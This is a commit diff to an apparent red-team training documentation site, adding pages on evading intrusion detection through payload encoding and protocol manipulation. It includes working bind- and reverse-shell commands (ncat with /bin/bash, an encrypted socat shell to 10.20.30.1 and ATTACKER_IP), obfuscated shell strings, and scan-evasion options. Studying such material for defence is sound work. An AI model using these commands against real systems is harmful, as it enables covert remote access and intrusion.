

Before and after one commit to tymyrddin/red-evasion, a Sphinx documentation site: the page built from source/index.rst, in a window 1280 px wide and 900 px high, scrolled down 2057 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

````diff
--- a/source/docs/netsec/README.md
+++ b/source/docs/netsec/README.md
@@ -15,3 +15,9 @@ To be able to apply IDS/IPS evasion techniques, such as protocol and payload man
 ## How?
 
 * [IDS/IPS systems](systems.md)
+* [Evasion via protocol manipulation](protocol.md)
+* [Evasion via payload manipulation](payload.md)
+* [Evasion via route manipulation](route.md)
+* [Evasion via tactical DoS](dos.md)
+* [C2 and IDS/IPS evasion](c2.md)
+* [Next-Gen security](nextgen.md)
--- /dev/null
+++ b/source/docs/netsec/c2.md
@@ -0,0 +1 @@
+# C2 and IDS/IPS evasion
--- /dev/null
+++ b/source/docs/netsec/dos.md
@@ -0,0 +1 @@
+# Evasion via tactical DoS
--- /dev/null
+++ b/source/docs/netsec/nextgen.md
@@ -0,0 +1 @@
+# Next-Gen security
--- /dev/null
+++ b/source/docs/netsec/payload.md
@@ -0,0 +1,113 @@
+# Evasion via payload manipulation
+
+Evasion via payload manipulation includes:
+
+* Obfuscating and encoding the payload.
+* Encrypting the communication channel.
+* Modifying the shellcode.
+
+## Obfuscating and encoding the payload
+
+Because IDS rules are very specific, minor changes to avoid detection can work. The changes include adding extra bytes,
+obfuscating the attack data, and encrypting the communication.
+
+Consider the command `ncat -lvnp 1234 -e /bin/bash`, where `ncat` will listen on TCP port `1234` and connect any
+incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and
+Unicode escape sequence that can be applied to the command to avoid triggering IDS/IPS signatures.
+
+Encode to a Base64 format:
+
+```text
+$ cat input.txt
+ncat -lvnp 1234 -e /bin/bash
+$ base64 input.txt
+bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
+```
+
+URL encoding:
+
+```text
+$ urlencode ncat -lvnp 1234 -e /bin/bash
+ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
+```
+
+## Escaped Unicode
+
+Some applications will still process input and execute it properly if escaped Unicode is used. There are multiple
+ways to use escaped Unicode depending on the system processing the input string. For example,
+[CyberChef](https://icyberchef.com/)  can be used to select and configure the Escape Unicode Characters.
+
+1. Search for Escape Unicode Characters
+2. Drag it to the Recipe column
+3. Check-mark Encode all chars with a prefix of `\u`
+4. Make sure there is a check-mark near Uppercase hex with a padding of 4
+
+| ![Cyberchef](../../_static/images/cyberchef-netsec.png) |
+|:--:|
+| Clearly a drastic transformation that would help evade detection, assuming the target system will <br>interpret it correctly and execute it. |
+
+Using the format `\uXXXX`, `ncat -lvnp 1234 -e /bin/bash` becomes:
+
+    \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068
+
+## Encrypting the communication channel
+
+Because an IDS/IPS will not inspect encrypted data, an attacker can take advantage of encryption to evade detection.
+Unlike encoding, encryption requires an encryption key and decrypting on the other side.
+
+One direct approach is to create the necessary encryption key on the attacker’s system and set socat to use the
+encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be
+carried out in three steps:
+
+1. Create the key
+2. Listen on the attacker’s machine
+3. Connect to the attacker’s machine
+
+Create key using `openssl`:
+
+    $ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
+    $ ls
+    thm-reverse.crt  thm-reverse.key
+
+* `req` indicates that this is a certificate signing request (not submitting it for signing).
+* `-x509` specifies an X.509 certificate
+* `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096
+bits.
+* `-days` validity in days
+* `-subj` sets data, such as organization and country, via the command-line.
+* `-nodes` simplifies the command and does not encrypt the private key
+* `-keyout` PRIVATE_KEY specifies the filename to save the private key to
+* `-out` CERTIFICATE specifies the filename to which to write the certificate request
+
+The command returns a private key `thm-reverse.key` and a certificate `thm-reverse.crt`.
+
+The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate
+`.crt` files:
+
+    cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
+
+With the PEM file ready, start listening while using the key for encrypting the communication with the client:
+
+    socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
+
+On the target system, connect back:
+
+    socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
+
+## Modifying the shellcode
+
+Consider the simple case of using Ncat to create a bind shell. The command `ncat -lvnp 1234 -e /bin/bash` tells
+ncat to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands,
+you need to think of something specific to match the signature but not too specific.
+
+* Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
+* On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as
+`ncat  -` which would still run correctly on the target system.
+* If the IDS is looking for `ncat`, then simple changes to the original command are unlikely to evade detection.
+Consider more sophisticated approaches depending on the target system/application. One option would be to use a
+different command such as nc or socat. Alternatively, consider a different encoding if the target system can
+process it properly.
+
+## Resources
+
+* [section 2.4 in RFC 3986 (URL encoding: When to Encode or Decode)](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4)
--- /dev/null
+++ b/source/docs/netsec/protocol.md
@@ -0,0 +1,129 @@
+# Evasion via protocol manipulation
+
+ Evasion via protocol manipulation includes:
+
+* Relying on a different protocol
+* Manipulating (Source) TCP/UDP port
+* Using session splicing (IP packet fragmentation)
+* Sending invalid packets
+
+## Rely on a different protocol
+
+The IDS/IPS system might be configured to block certain protocols and allow others. For example, using UDP instead of
+TCP or relying on HTTP instead of DNS to deliver an attack or exfiltrate data. It depends on the target and the
+applications necessary for the target organization to design the attack. For example, if web browsing is allowed, it
+usually means that protected hosts can connect to ports 80 and 443 unless a local proxy is used. A client relying on
+Google services for their business, can be attacked using Google web hosting to conceal a malicious site.
+
+Not a one-size-fits-all, and some trial and error might be necessary (do not create too much noise).
+
+In case of an IPS set to block DNS queries and HTTP requests, enforcing a policy where local machines cannot query
+external DNS servers but instead query the local DNS server; moreover, and enforcing secure HTTP communications while
+being relatively permissive when it comes to HTTPS, using HTTPS to tunnel traffic looks like a promising approach to
+evade the IPS.
+
+### Ncat
+
+Ncat by default, uses a TCP connection, and can be set to use UDP using the option `-u`
+
+To listen using UDP (where port number is the listen port):
+
+    ncat -ulvnp PORT_NUM
+
+To connect to an Ncat instance listening on a UDP port:
+
+    nc -u TARGET_IP PORT_NUM
+
+* Running `ncat -lvnp 25` on the attacker system and connecting to it will give the impression that it is a usual
+TCP connection with an SMTP server, **unless the IDS/IPS provides deep packet inspection (DPI)**.
+* Executing `ncat -ulvnp 162` on the attacker machine and connecting to it will give the illusion that it is a regular
+UDP communication with an SNMP server **unless the IDS/IPS supports DPI**.
+
+## Manipulate (Source) TCP/UDP port
+
+The TCP and UDP source and destination ports are inspected even by the most basic security solutions.
+**Without deep packet inspection**, the port numbers are the primary indicator of the service used:
+network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyse
+the data carried by the TCP segments.
+
+### Nmap
+
+Add the option `-g PORT_NUMBER` (or `--source-port PORT_NUMBER`) to make Nmap send all its traffic from a specific
+source port number.
+
+For example, use `nmap -sS -Pn -g 80 -F MACHINE_IP` to make the port scanning traffic appear to be exchanged with an
+HTTP server at first glance. When scanning UDP ports, use `nmap -sU -Pn -g 53 -F MACHINE_IP` to make the traffic
+appear to be exchanged with a DNS server.
+
+### Ncat
+
+Trying to camouflage the traffic as if it is DNS traffic:
+
+* On the attacker machine, to use Ncat to listen on UDP port 53 (as a DNS server would), use `ncat -ulvnp 53`.
+* On the target, connect back to the listening server using `ncat -u ATTACKER_IP 53`.
+
+To make it appear more like web traffic where clients communicate with an HTTP server:
+
+* On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
+* On the target, connect to the listening server using `nc ATTACKER_IP 80`.
+
+## Use session splicing (IP packet fragmentation)
+
+Another approach possible in IPv4 is IP packet fragmentation (session splicing). The assumption is that if you break
+the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures. If the IDS is
+looking for a particular stream of bytes to detect the malicious payload, divide the payload among multiple packets.
+Unless the IDS reassembles the packets, the rule won’t be triggered.
+
+### Nmap
+
+Nmap offers a few options to fragment packets. Add:
+
+* `-f` to set the data in the IP packet to 8 bytes.
+* `-ff` to limit the data in the IP packet to 16 bytes at most.
+* `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.
+
+Suppose you want to force all your packets to be fragmented into specific sizes. In that case, consider using a
+program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). It can be set to read a set of rules from a
+given configuration file and applies them to incoming packets. For simple IP packet fragmentation, it would be
+enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size.
+**The size must be a multiple of 8**.
+
+For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets
+where IP data fragments do not exceed 16 bytes. Then run the command `fragroute -f fragroute.conf HOST`.
+The `HOST` is the destination to which to send the fragmented packets to.
+
+## Sending invalid packets
+
+The response of systems to valid packets **tends** to be predictable. It can be unclear how systems will respond to
+invalid packets. For example, an IDS/IPS might process an invalid packet, while the target system might ignore it.
+The exact behaviour requires some experimentation or inside knowledge.
+
+Nmap makes it possible to create invalid packets in a many ways. Two common options are to scan the target using
+packets that have:
+
+* Invalid TCP/UDP checksum
+* Invalid TCP flags
+
+Nmap allows for sending packets with a wrong TCP/UDP checksum using the option `--badsum`. An incorrect checksum
+indicates that the original packet has been altered somewhere across its path from the sending program.
+
+Nmap also allows for sending packets with custom TCP flags, including invalid ones. The option `--scanflags` allows
+for setting flags:
+
+* `URG` for Urgent
+* `ACK` for Acknowledge
+* `PSH` for Push
+* `RST` for Reset
+* `SYN` for Synchronize
+* `FIN` for Finish
+
+To craft packets with custom fields (valid or invalid), consider a tool such as [hping3](http://www.hping.org/). A
+few example options:
+
+* `-t` or `--ttl` to set the Time to Live in the IP header.
+* `-b` or `--badsum` to send packets with a bad UDP/TCP checksum.
+* `-S`, `-A`, `-P`, `-U`, `-F`, `-R` to set the TCP `SYN`, `ACK`, `PUSH`, `URG`, `FIN`, and `RST` flags, respectively.
+
+## Resources
+
+* [EV: IDS Evasion via TCP/IP Packet Manipulation](https://github.com/TomAPU/ev)
--- /dev/null
+++ b/source/docs/netsec/route.md
@@ -0,0 +1 @@
+# Evasion via route manipulation
--- a/source/index.rst
+++ b/source/index.rst
@@ -119,6 +119,12 @@ Evasion techniques
 
    docs/netsec/README.md
    docs/netsec/systems.md
+   docs/netsec/protocol.md
+   docs/netsec/payload.md
+   docs/netsec/route.md
+   docs/netsec/dos.md
+   docs/netsec/c2.md
+   docs/netsec/nextgen.md
 
 .. toctree::
    :glob:
````
Also changed, not shown: source/_static/images/cyberchef-netsec.png (added).
